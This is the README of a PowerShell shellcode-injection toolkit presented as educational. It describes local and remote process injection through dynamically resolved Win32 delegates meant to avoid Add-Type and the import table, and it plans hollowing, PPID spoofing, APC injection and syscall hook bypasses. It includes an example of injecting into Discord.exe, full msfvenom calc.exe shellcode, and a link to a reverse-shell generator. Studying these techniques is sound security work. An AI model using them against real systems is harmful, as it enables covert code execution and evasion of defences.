



This project is a collect of educational PowerShell-based shellcode injection/execution tools with overly verbose comments by design.
The goal is to offer a modular, readable framework that can educate people on native Windows API usage, shellcode execution techniques,
and low-level PowerShell tomfoolery (without leaning on `Add-Type` or embedded `C#`).

It is written with learning in mind over pure stealth and evasion -- hence why it is written in PowerShell instead of any other
language that would *actually* make sense (though to be fair that is kinda what makes this project fun and interesting).

**Directory Structure**
```
ShellcodeLoaderPS/
|__ helpers/
|   |__ win32-examples/*        # Contains examples of Win32 API usage via helper functions (e.g., `CreateProcessA().ps1`).
|   |__ Build-Win32Struct.ps1   # Defines .NET data structs within the session usable by Win32 functions.
|   |__ Format-ByteArray.ps1    # Converts shellcode strings in different languages to usable byte arrays.
|   |__ Load-Win32Function.ps1  # Dynamically resolves and loads Win32 API functions into session via delegates.
|__ standalone/
|   |__ add-type/*              # Standalone function(s) for shellcode injection using `Add-Type`.
|   |__ win32/*                 # Standalone function(s) for shellcode injection using Win32 API via helper functions.
|   |__ native/*                # Standalone function(s) for shellcode injection using Native API via helper functions.
|__ Load-Shellcode.ps1          # Main shellcode injector function, wrapping functionality of standalone functions.
|__ calc32.bin                  # Example 32-bit `calc.exe` shellcode generated from `msfvenom` used for testing.
|__ calc64.bin                  # Example 64-bit `calc.exe` shellcode generated from `msfvenom` used for testing.
```
_(Note: this project is work-in-progress, therefore some directory structures haven't been implemented yet)_

---

## Technical Roadmap

> This project is actively in development and has a long way to go.  The below section provides a checklist
> with technical details of current and future completion goals, along with educational high-level breakdowns.

<details>
  <summary><b>✅ Avoiding Import Address Table (IAT) via Function Delegates</b></summary>
  
  - **Summary:**
    - This technique avoids common (and noisy) practices such as utilizing `Add-Type` and embedded `C#`.
    - This is accomplished via custom helpers to resolve and invoke raw function pointers with .NET delegates, allowing you to invoke them without adding an entry to the IAT.
    - Custom Scripts: [Load-Win32Function.ps1](./helpers/Load-Win32Function.ps1), [Build-Win32Struct.ps1](./helpers/Build-Win32Struct.ps1)`
</details>

<details>
  <summary><b>✅ Local Process Injection (via Kernel32.dll)</b></summary>

  - **Summary:**
    - Inject shellcode into the current local process (i.e., `PowerShell`) using standard Win32 API calls (aka `Kernel32.dll`).
    - Skipping Native API (aka `Ntdll.dll`) due to remote process injection POC also supporting local process injection.

</details>

<details>
  <summary><b>✅ Remote Process Injection (via Kernel32.dll)</b></summary>

  - **Summary:**
    - Inject shellcode into remote processes via the Win32 API (aka `Kernel32.dll`).
    - This also works for local process injection by targeting the current process' PID.

</details>

<details>
  <summary><b>❌ Remote Process Injection (via Ntdll.dll)</b></summary>

  - **Summary:**
    - Inject shellcode into remote processes via the Native API (aka `Ntdll.dll`).
    - This also works for local process injection by targeting the current process' PID.

</details>

<details>
  <summary><b>❌ Process Hollowing</b></summary>
  
  - **Summary:**
    - Create a legitimate process in a suspended state, then replace the process' memory with malicious code before resuming execution.
</details>

<details>
  <summary><b>❌ Parent Process ID (PPID) Spoofing</b></summary>
  
  - **Summary:**
    - Spoof the parent process ID when creating processes.
    - This technique can make malicious processes appear spawned from trusted processes.
</details>

<details>
  <summary><b>❌ APC Injection (aka Earlybird)</b></summary>
  
  - **Summary:**
    - Queue shellcode execution to a thread's Asynchronous Procedure Call (APC) queue for stealthy execution.
</details>

<details>
  <summary><b>❌ Direct System Call Implementation</b></summary>
  
  - **Summary:**
    - Bypass userland API hooks by invoking direct system calls via SysCall stubs.
    - SysCalls are dependent on system architecture and build versions, so this will need to be very modular.
    - Reference: https://j00ru.vexillium.org/syscalls/nt/64/
</details>

## Load-Shellcode.ps1 Usage

Every script should hopefully be excessively documented, so plese refer to the source code for other examples.

```
Usage: Load-Shellcode [options]

Parameters:
  -Shellcode  -->  Shellcode to execute (can be a byte array or string containing file path or bytes).
  -TargetPID  -->  Target process PID to inject into. 
  -Debug      -->  Pause execution and print shellcode address for process attachment.
  -Help       -->  Return Get-Help information.

Example(s):
  ____________________________________________________________________________
 |                                                                            |
 | # Inject shellcode strintg into the current PowerShell process (and debug) |
 | PS> Load-Shellcode -Shellcode $calc64 -TargetPID $PID -Debug               |
 |                                                                            |
 | # Inject shellcode binary into 'Discord.exe'                               |
 | PS> $DiscordPID = (Get-Process -Name Discord).Id | Select -First 1         |
 | PS> Load-Shellcode -Shellcode .\calc64.bin -TargetPID $DiscordPID          |
 |____________________________________________________________________________|
```
_(Note: as of writing, only Win32-based remote process injection has been implemented -- will update over time)_


### Shellcode Parsing

For supported shellcode, the `-Shellcode` parameter is intentionally undeclared and written to accept most shellcode formats. Currently supports strings `[string]` and byte arrays `[byte[]]`.
If a standard array `[array]` is used, the array will be converted to a string prior to language detection. If a byte array is used, no formatting will occur.

Below is a table of supported string formats:

| Format | Example |
| --- | --- |
| Path to Raw Shellcode | `.\shellcode.bin` |
| Python Shellcode      | `'b"\x45\x78\x61\x6d\x70\x6c\x65"'` |
| C Shellcode           | `'\x45\x78\x61\x6d\x70\x6c\x65'` |
| C++ / C# Shellcode    | `'{0x45,0x78,0x61,0x70,0x6c,0x65}'` |

### Architecture Support
Works with both `Windows PowerShell` and `PowerShell Core (Pwsh)`. Using 64-bit PowerShell sessions
allows for both 64-bit and 32-bit injection, whereas 32-bit sessions only allow 32-bit injection.

## Shellcode Examples

Included in the files of this repository are two `calc.exe` shellcode files created from `msfvenom`, in both 32-bit and 64-bit...

... with that said, I recognize the inherent trust needed before executing mysterious, unknown shellcode.  With that said, below are string
variants (which are the literal exact bytes I used to write those two `.bin` files) -- so feel free to use these instead.

```powershell
# 32-bit Shellcode (C Format)
# > msfvenom -p windows/exec CMD=calc.exe -f c EXITFUNC=thread

$calc32 = '\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xe0\x1d\x2a\x0a\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00'

# 64-bit Shellcode (C# Format)
# > msfvenom -p windows/x64/exec CMD=calc.exe -f csharp EXITFUNC=thread

$calc64 = '{
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,
0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,
0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,
0x42,0x3c,0x48,0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,0x8b,0x48,0x18,0x44,
0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,
0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,
0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,0x01,
0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,
0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x48,0x8d,0x8d,
0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,
0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,
0xda,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00
}'
```
For 32-bit reverse shell shellcode, check out my [genrev](https://github.com/tylerdotrar/genrev) project!
